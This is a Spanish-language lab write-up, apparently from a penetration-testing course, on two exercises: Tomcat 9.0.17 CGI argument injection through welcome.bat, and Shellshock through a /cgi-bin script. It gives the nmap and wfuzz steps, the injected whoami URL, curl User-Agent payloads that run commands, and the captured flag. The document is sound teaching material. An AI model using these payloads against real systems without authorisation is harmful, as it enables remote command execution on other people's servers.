


# Laboratorio: Tomcat CGI 🐱‍👓

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

---

2. Ahora hacemos un escaneo para conocer las versiones y los servicios que se ejecutan en todos los puertos
* `-nmap -sCV -p[Puertos] [IP] -oN versions`

**Output**
```java
<SNIP>
8080/tcp  open  http          Apache Tomcat 9.0.17
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.17
<SNIP>
```

---

3. Si vistamos la siguiente **URL** veremos que el directorio `cgi` existe, a pesar de que al fuzzearlo nos aparezca con un código de estado `404`
* **URL:** `http://10.129.205.30:8080/cgi/welcome.bat`
**Output**
```
Welcome to CGI, this section is not functional yet. Please return to home page
```

---
4. Ahora ejecutaremos el comando `whoami`, (Con la ruta absoluta, ya que en las variables de entornos no está setteado ningún **PATH**)
* **URL:** `http://10.129.205.30:8080/cgi/welcome.bat?&set`
```xml
<SNIP>
PATH_INFO=
<SNIP>
```

* **URL:** `http://[IP]:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe`
* **Output**
```python
Welcome to CGI, this section is not functional yet. Please return to home page.
feldspar\omen
```

---

# Laboratorio: TomcatCGI ShellShock ⚡🛡

1. Usamos **`nmap`** para escanear puertos abiertos
* `nmap -p- -sS -Pn -n [IP] -oG ports`

<p align="center">
    
</p>

---

2. Lo que haremos ahora es buscar por archivos con extensiones `.sh` `.cmd` `.cgi` `.pl` `.bat` en el direcotorio **`/cgi-bin`**
* `wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,cgi-pl-sh http://[IP]/cgi-bin/FUZZ.FUZ2Z`

* **Output**
```bash
000002206:   200        0 L      0 W        0 Ch        "access - cgi"
```

---

3. Ahora usaremos **cURL** para ejecutar comandos
* `curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://[IP]/cgi-bin/access.cgi`

**Output**
```
www-data
```

---

4. Leemos la **flag** 🏴
* Si queremos listar contenido usamos `/usr/bin/ls`

* `curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/cat flag.txt" http://[IP]/cgi-bin/access.cgi`

**Output**
```
Sh3ll_Sh0cK_123
```